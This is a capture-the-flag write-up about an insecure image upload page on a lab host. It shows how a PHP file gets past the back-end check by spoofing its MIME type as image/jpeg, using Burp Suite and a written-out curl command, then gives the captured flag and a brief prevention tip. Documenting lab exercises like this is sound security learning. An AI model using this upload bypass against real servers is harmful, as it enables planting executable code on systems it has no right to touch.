 
# File upload
The upload page [http://192.168.8.120/index.php?page=upload](http://192.168.8.120/index.php?page=upload "upload page") is not secure.

## Manipulation

In the path we find an image upload form, it has a file limit which can be changed on the front-end, but the have checked for it on the back end which is good.

The backend has accepted a php and xml file, this was achived by using ***Burpsuite*** and ***Curl***.

Using ***Burpsuite*** we had to use the browser to input the php file, then we intercept the request, We could then see the ***mime type*** of our file we then change it from ***application/php*** to ***image/jpeg***, then forward the request, then we get the flag.

Using ***Curl*** we can use command 
```bash
curl -F 'Upload=Upload' -F 'type=image/jpeg' -F 'uploaded=@/home/lindani/Desktop/php_file.php;type=image/jpeg' http://192.168.8.121/?page=upload | grep "flag"
```

The results
```html 
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/php_file.php succesfully uploaded.</pre>
```

## Prevention
The back-end must check whether the file upload matches the specified ***mime-type*** 